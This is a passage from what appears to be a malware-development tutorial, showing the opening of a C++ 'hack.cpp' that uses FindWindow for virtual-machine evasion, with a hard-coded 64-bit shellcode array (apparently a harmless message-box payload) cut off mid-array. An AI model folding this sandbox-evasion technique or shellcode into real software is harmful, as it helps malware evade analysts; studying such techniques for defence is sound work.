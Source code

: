 ![injection](/assets/images/43/2022-03-15_13-58.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)    

### Anti-VM   

Another example of using this function is VM "evasion". The fact that some windows' names are only present in virtual environment and not is usual host OS.    
Let's look at an example:    

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] = 
  
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
```